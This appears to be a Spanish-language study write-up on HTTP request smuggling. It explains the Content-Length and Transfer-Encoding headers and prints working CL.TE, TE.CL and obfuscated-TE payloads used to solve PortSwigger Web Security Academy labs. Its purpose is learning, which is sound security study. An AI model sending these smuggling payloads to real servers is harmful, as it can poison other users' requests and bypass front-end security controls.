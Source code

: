 
# HTTP request smugglin 

> El contrabando de solicitudes HTTP es una técnica para interferir con la forma en que un sitio web procesa secuencias de solicitudes HTTP que se reciben de uno o más usuarios.

> Los usuarios envían solicitudes a un servidor front-end (a veces denominado equilibrador de carga o proxy inverso) y este servidor reenvía las solicitudes a uno o más servidores back-end. Este tipo de arquitectura es cada vez más común, y en algunos casos inevitable, en las aplicaciones modernas basadas en la nube. El protocolo es muy simple: las solicitudes HTTP se envían una tras otra y el servidor receptor analiza los encabezados de las solicitudes HTTP para determinar dónde termina una solicitud y comienza la siguiente. En esta situación, es crucial que los sistemas front-end y back-end estén de acuerdo sobre los límites entre las solicitudes. De lo contrario, un atacante podría enviar una solicitud ambigua que los sistemas front-end y back-end interpretan de manera diferente


# Aprovechar la especificacion para realizar cosas diferentes

> Most HTTP request smuggling vulnerabilities arise because the HTTP specification provides two different ways to specify where a request ends: the Content-Length header and the Transfer-Encoding header.

```
El encabezado Content-Length es sencillo: especifica la longitud del cuerpo del mensaje en bytes. Por ejemplo

POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling

```

### ***En este ejemplo vale la pena recalcar que Content-Length manda la informacion en bytes y que en formato hex cada caracter equivale a 4 bits y cada caracter se forma por lo regular de 2 numeros hex por ejemplo 2e (el punto) entonces cada caracter ascii equivaldria a un byte***



```
El encabezado Transfer-Encoding se puede usar para especificar que el cuerpo del mensaje usa codificación fragmentada. Esto significa que el cuerpo del mensaje contiene uno o más fragmentos de datos. Cada fragmento consta del tamaño del fragmento en bytes (expresado en hexadecimal), seguido de una nueva línea, seguido del contenido del fragmento. El mensaje se termina con un trozo de tamaño cero. Por ejemplo:

POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0

```

### En este caso recordar que la cabecera Transfer-Encoding pasa datos de la siguiente maneja en salto de linea despues el valor en hex del tamaño de datos a pasar  + salto de linea +
despues los datos en si ( b es 11 en hex) y al final ya cuando no se enviaran mas datos pone un 0 y el salto de linea y asi se acaba.

## ***En Resumen*** http request smuggling es pasar de contrabando una solicitud al servidor de back-end, de modo que la próxima solicitud procesada por el servidor de back-end parezca usar el método GPOST u otra. Todo esto aprovechando que no se sabe donde acaba la primera solicitud. ( esta algo dificil de comprender)

# Casos que se pueden encontrar 

Recordar para que sirven esta headers *** Two different methods for specifying the length of HTTP messages****  Content-Length y Transfer-Encoding header (chunked encoding).

## CL.TE

Donde el fron end usa el  Content-Length  y el back end usa el Transfer-Encoding header 

## TE.CL

Donde el front end usar el Transfer-Encoding header  header y el back end el Content-Length.

## TE.TE

Donde el front end usa el Transfer-Encoding header e igualmente el back end Transfer-Encoding header.

# Burp  HTTP Request Smuggler

Para trabajar con esta vulnerabilidad te recomiendan utilizar esta extencion de burp.

# HTTP request smuggling, basic CL.TE vulnerability


Para este lab tenemos que el front end acepta Content-Lenght y el servidor acepta Trasfer-Encoding 

```

POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G


```
# HTTP request smuggling, basic TE.CL vulnerability

Para este laboratiorio el fron en acepta el header  Transfer-Encoding y el back-end el Content-Lenght.

```
POST / HTTP/1.1
Host: 0a4c00f00330561dc002744700960007.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

# HTTP request smuggling, obfuscating the TE header

Para este lab solo se ofusco la cabecera añadiendole el "Transfer-encoding: cow"

```
POST / HTTP/1.1
Host: 0a920094049d0bffc0ba45dc00cc0016.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
Recuerda que los salto de liena son dos caracteres por eso es 4 y en el caso del final son 4 caracteres \r\n\r\n. 
Referencias 




> https://portswigger.net/web-security/request-smuggling
